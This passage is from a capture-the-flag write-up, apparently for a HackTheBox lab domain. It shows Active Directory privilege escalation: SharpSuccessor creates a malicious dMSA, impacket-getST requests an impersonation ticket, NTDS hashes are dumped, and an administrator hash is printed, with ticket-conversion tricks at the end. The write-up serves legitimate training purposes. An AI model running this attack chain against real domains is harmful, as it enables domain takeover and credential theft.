I have both of these on my box already. I'll transfer SharpSuccessor onto the box.
https://github.com/logangoins/SharpSuccessor
.\SharpSuccessor.exe add /impersonate:Administrator /path:"ou=staff,dc=eighteen,dc=htb" /account:adam.scott /name:evil_dMSA

Then I'll try to impersonate the administrator by requesting a service ticket with impacket-getST.
faketime '2026-04-12 01:10:15' impacket-getST eighteen.htb/adam.scott:iloveyou1 -impersonate 'evil_dMSA$' -self -dmsa -dc-ip 240.0.0.1

And this ticket can be used to perform admin-level actions against the domain.

administrator | 0b133be956bfaddf9cea56701affddec
The hash from NTDS is preferred, as it will always be the most "recent" credential for a user. This is because the NTDS database is the main AD database, and so it must always have the most recent information. The netexec command can be substituted for impacket-secretsdump, with a similar result.

Rooted! However, I am curious about one thing. I'll rerun the two Rubeus commands just like before...

Instead of trying to pass the ticket within the shell itself, I copied the b64 kirbi ticket onto my box and converted it into a .ccache format.

And this actually worked! This means that if I were to find a way to authenticate with this ticket directly within the evil-winrm shell, I could potentially gain administrative access without needing the ligolo tunnel!
This would be a good thing to learn how to do for future OPSEC, but I'll tinker with it more when I'll have time.
For now, Rooted(2)!